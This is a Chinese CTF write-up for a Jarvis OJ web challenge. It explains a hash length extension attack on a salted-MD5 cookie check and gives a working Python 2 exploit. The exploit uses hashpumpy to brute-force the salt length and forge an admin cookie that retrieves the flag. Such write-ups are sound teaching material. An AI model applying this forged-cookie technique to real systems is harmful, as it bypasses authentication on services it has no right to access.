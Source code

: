 这里的hsh是加盐md5，不难想到是hash长度扩展攻击

**了解哈希长度扩展攻击**

哈希长度扩展攻击适用于加密情况为：`hash($SECRET, $message)`的情况，其中 hash 最常见的就是 md5、hash1。我们可以在不知道`$SECRET`的情况下推算出另外一个匹配的值。如上例所给的 PHP 代码：

- 我们知道`md5($SECRET . strrev($_COOKIE["auth"]))`的值
- 我们知道`$hsh`的值
- 我们可以算出另外一个 md5 值和另外一个 $hsh 的值，使得 `$hsh == md5($SECRET . strrev($_COOKIE["auth"]))`

这样即可通过验证。 

```
第一个条件 $role==="admin"
只需要使$role参数的前5个字符是"admin"，第六个字符是'\0'即可。
第二个条件 $hsh === md5($salt.strrev($_COOKIE["role"]))
注意和$salt连接的字符串是经过strrev函数处理的role参数，只需要构造role参数的后半部分，通过hash长度扩展攻击，经过运算得到新的hsh即可。$salt的长度暂时不知道，暂时输入一个数字10，得到新的hash值fcdc3840332555511c4e4323f6decb07以及一个接近payload的字符串;"tseug":5:s\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb0\x00\x00\x00\x00\x00\x00\x00;"nimda":5:s。\xb0说明$salt+;"tseug":5:s一共176bit，也就是22字节，$salt长假设是10字节。
```

```
hash_extender：
已知hash{secret(已知长度)}，求hash{secret (已知长度)|| data (填充字段）|| attacker_controlled_data（自定义字符串）}
hashpumpy：
hashpump(hexdigest, original_data, data_to_add, key_length) -> (digest, message)
本题：已知md5(secret(未知长度）+string1)，求md5{secret||%00等填充字段||2string}
最大的不同就是不知道salt长度！古话说的好，爆破就是艺术，这题应该不会难为我们，从0-15爆破。
```

exp:

```python
#coding=utf-8
import requests,hashpumpy,urllib
def exploit(): #py2
    url = 'http://web.jarvisoj.com:32778/'
    sha = '3a4727d57463f122833d9e732f94e4e0'
    string0 = ';"tseug":5:s'
    string1 = ';"nimda":5:s'
    for i in range(15):
        digest, message = hashpumpy.hashpump(sha,string0,string1,i)
        payload ={'role':urllib.quote(message[::-1]), 'hsh':digest}
        print i,payload
        html = requests.get(url,cookies=payload).text#提交答案
        if 'Welcome' in html:
            index = html.find('flag')
            edge = html.find('</h3>')
	    	message = html[index:edge]
	    	print(message)
	    	exit()
exploit()
```
